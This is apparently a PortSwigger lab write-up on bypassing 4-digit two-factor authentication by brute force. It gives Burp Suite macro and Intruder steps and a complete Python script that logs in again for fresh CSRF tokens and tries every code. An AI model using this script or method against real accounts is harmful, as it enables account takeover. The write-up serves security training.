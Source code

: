 # Lab Brute-forcing 2fa verification codes 

## Objective:

 This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: carlos:montoya 
## Start by looking at the login page

![image](https://user-images.githubusercontent.com/90155329/133940553-691bd94f-403d-4b86-8480-e793a11013f0.png)

![image](https://user-images.githubusercontent.com/90155329/133940559-8099d688-ff43-46a5-b238-61a4a2f4b24a.png)

After logging in, a new login page at /login2 is displayed

![image](https://user-images.githubusercontent.com/90155329/133940567-a8ab6ccf-6579-49a6-be41-14170db86238.png)

![image](https://user-images.githubusercontent.com/90155329/133940571-3f63a8d2-3fb2-4fbc-b011-999a94ebf1e1.png)

Notice the csrf token values. These are important

I tried a couple of mfa options 0000, and 0001. I noticed that after 2 attempts, I automatically get redirected to the login page. 

To complete this lab, I need to brute force every the mfa code by using every possible option. Since the mfa code is only 4 digits, this is possible .

To do this, I need to use burp macros and session handler options, to create login for every mfa attempt. This would ensure that I would receive a new csrf token value.

1. Go to > Project options 
2. From "Session Handling Rules", click "Add"

![image](https://user-images.githubusercontent.com/90155329/133940582-5dbd9316-9238-43e3-9b24-ca407a3648bb.png)

I will use Session Handling Rules to login and get a new csrf token when I use burp intruder to brute force the mfa code

3. Click "ADD" to create a new Rule action. This will open a new prompt.

![image](https://user-images.githubusercontent.com/90155329/133940586-72638212-fb3e-45a0-b90b-d9650915bb4d.png)

4. Click "Add" to create a new macro

![image](https://user-images.githubusercontent.com/90155329/133940628-faf69f42-ad30-4618-93bc-d8fc86603d7a.png)

5. Under "Macro Recorder", choose the requests needed for the login.

![image](https://user-images.githubusercontent.com/90155329/133940616-a6349c2f-e6e5-47c6-83b1-e9975901eda0.png)

1. The First GET request to /login is needed to get the csrf and set-cookie value
2. The POST request used the csrf value and set-cookie value and authenticates using the carlos:montoya credentials
3. The third GET request collects the csrg token value from /login2 

The reason I chose those values is because they are needed to receive a valid csrf token for the /login2 page. This is the page where Burp Intruder will be brute forcing the mfa code. 

From the "Scope" tab of the "Session Handling Rule Editor", make sure that "Intruder" and "Include All URL's" is selected. This makes sure that intruder will run this macro on every request. 

![image](https://user-images.githubusercontent.com/90155329/133940649-b4915a01-c804-43fd-bb8b-1f9f4faa8f3f.png)

The next step is to use intruder to brute force the mfa code

I selected the mfa-code value as the target

![image](https://user-images.githubusercontent.com/90155329/133940655-019058b6-4329-4492-9309-56cae41dbd2d.png)

I chose the following payload options:

![image](https://user-images.githubusercontent.com/90155329/133940669-4c3af3a9-4059-4cd5-8135-2363b193dbb8.png)

This ensures that every 4 character option from 0-9 is iterated through

![image](https://user-images.githubusercontent.com/90155329/133940676-9e2f132e-c66b-408e-aa55-c31faaf6f02e.png)

Session handling does not take multiple threads too well, so I had to do this 1 thread at a time. 

I started the attack 

![image](https://user-images.githubusercontent.com/90155329/133940683-578e5f85-3ab1-446c-852a-a6ffb8e8ccc6.png)

The 200 response codes mean that my the csrf tokens are working which means the macros are correctly functioning. 

In the meantime, I wrote a python script to do the same thing. 

-------------------------------------------------------

				'''
				Portswigger lab 2FA bypass using a brute-force attack

				This script logs in with the provided credentials to /login.

				After this login, the session will get redirected to /login2 which will ask for the MFA code. This code is only 4 digits and can be brute forced.This script will iterate through every option until the MFA code is successful. 

				Because of CSRF defense, I will need to relogin every 2 MFA attempts to get a valid CSRF token. 

				'''

				import sys
				import re
				import requests
				import urllib
				import urllib3

				proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
				urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
				login2Cookies = []
				login2CSRF = []

				def mfaBrute(url):
					#brute mfa prompt by attempting every possible option for a 4 digit code(0000,0001,0002,etc). After 2 attempts, login again to get a new valid csrf and token values
					numbers = [0,1,2,3,4,5,6,7,8,9]
					attempt = 1

					for p1 in numbers:
						for p2 in numbers:
							for p3 in numbers:
								for p4 in numbers:
									mfaCode = str(p1) + str(p2) + str(p3) + str(p4)
									cookies = {'session': login2Cookies[-1]}
									data = {'csrf':login2CSRF[-1], 'mfa-code': mfaCode}

									print("Attempting {} with CSRF token of {} and cookie of {}".format(mfaCode,login2CSRF[-1],login2Cookies[-1]))
									p = requests.post(url + "/login2", cookies=cookies,data=data, verify=False, proxies=proxies)

									if "Incorrect security code" not in p.content:
										print("The pin of {} worked!".format(mfaCode))
										exit()

									if attempt % 2 != 0:
										print("Reauthenticating to get new tokens")
										getTokensLogin1(url)
									attempt += 1	

				def getCSRF2(url,cookie2):
					#Send get request to /login2 and collect the second csrf token
					cookies = {'session': cookie2}
					r = requests.get(url + "/login2", cookies=cookies, proxies=proxies, verify=False)
					csrf2 = re.findall('[A-Za-z0-9]{32}',str(r.content))[0]
					login2Cookies.append(cookie2)
					login2CSRF.append(csrf2)


				def getCookie2(url,headers):
					#After authenticating, collect second cookie value for next login mfa prompt page
					cookie2 = re.findall("[A-Za-z0-9]{32}",str(headers))[0]
					getCSRF2(url,cookie2)

				def authenticateLogin1(url,cookie1,csrf1):
					# Uses the collected information to authenticate
					cookies = {'session': cookie1}
					data= {'csrf': csrf1, 'username': 'carlos', 'password':'montoya'}
					p = requests.post(url + "/login",cookies=cookies,data=data,allow_redirects=False, verify=False, proxies=proxies)
					getCookie2(url,p.headers)

				def getTokensLogin1(url):
					# Sends Get request to first login page and saves the cookie and csrf token value
					r = requests.get(url + "/login",verify=False, proxies=proxies)
					cookie1 = re.findall("[A-Za-z0-9]{32}",str(r.headers))[0]
					csrf1 = re.findall("[A-Za-z0-9]{32}",str(r.content))[0]
					authenticateLogin1(url,cookie1,csrf1)


				def main():
					if len(sys.argv) != 2:
						print("(+) Not enough Arguments")
						print("(+)Example: {} http://example.com".format(sys.argv[0]))
					else:
						url = sys.argv[1]
						getTokensLogin1(url)
						mfaBrute(url)

				if __name__ == "__main__":
					main()


---------------------------------------------------------------------


Eventually, we get the correct MFA code:

![image](https://user-images.githubusercontent.com/90155329/133943756-6459946c-e599-4d44-9705-7d0eeac3b3a9.png)


